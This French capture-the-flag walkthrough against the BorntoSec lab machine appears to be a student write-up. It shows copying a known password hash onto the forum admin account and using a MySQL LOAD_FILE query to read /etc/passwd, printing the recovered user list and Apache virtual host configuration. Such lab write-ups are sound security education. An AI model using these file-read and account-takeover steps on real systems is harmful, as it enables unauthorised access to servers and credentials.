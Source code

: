 Les hashs ne tombent pas sur *crackstation.net* et d'ailleurs ils sont d'une taille étrange, plus long que du MD5 et du SHA1 mais moins que du SHA256...

A défaut de casser les hashs on peut copier celui de `lmezard` dont on connait le clair et le mettre pour le compte `admin`. Une fois connecté on a accès à l'interface d'administration du forum. On peut activer l'upload des images et des avatars mais ces nouvelles options ne semblent pas permettre d'uploader autre chose que des images.

J'aurais pu fouiller plus en détails mais je me suis tourné vers des commandes MySQL plus classiques pour parvenir à mes fins.

Ainsi la commande SQL suivante :

```sql
SELECT LOAD_FILE( "/etc/passwd" )
```

permet de récupérer un blob avec la liste des utilisateurs (il faut soit activer l'affichage des blobs dans `phpMyAdmin` soit exporter vers un format utilisable comme JSON)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
--- snip ---
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
mysql:x:106:115:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:107:116:ftp daemon,,,:/srv/ftp:/bin/false
lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash
laurie:x:1003:1003:,,,:/home/laurie:/bin/bash
thor:x:1004:1004:,,,:/home/thor:/bin/bash
zaz:x:1005:1005:,,,:/home/zaz:/bin/bash
dovecot:x:108:117:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:109:65534:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:110:118::/var/spool/postfix:/bin/false
```

J'ai procédé à la même opération pour le fichier `/etc/os-release` pour identifier l'OS :

`Ubuntu precise (12.04.5 LTS)`

Une petite recherche sur le web permet de déterminer comment est organisé la configuration Apache sur ce système. Heureusement le nom du fichier de configuration par défaut pour le virtual host n'a pas été changé (`/etc/apache2/sites-enabled/000-default`).

En voici les grandes lignes :

```apacheconf
<VirtualHost *:80>
    ServerAdmin webmaster@localhost
    ServerName BorntoSec
    DocumentRoot /var/www

    <Directory /var/www/forum>
        SSLRequireSSL
    </Directory>
    <Directory /var/www/>
        allow from all
    </Directory>
</VirtualHost>

<VirtualHost *:443>
    ServerAdmin webmaster@localhost
    SSLEngine On
    SSLCertificateFile /etc/ssl/private/localhost.pem

Alias /phpmyadmin /usr/share/phpmyadmin
<Directory /usr/share/phpmyadmin>
    Options FollowSymLinks
```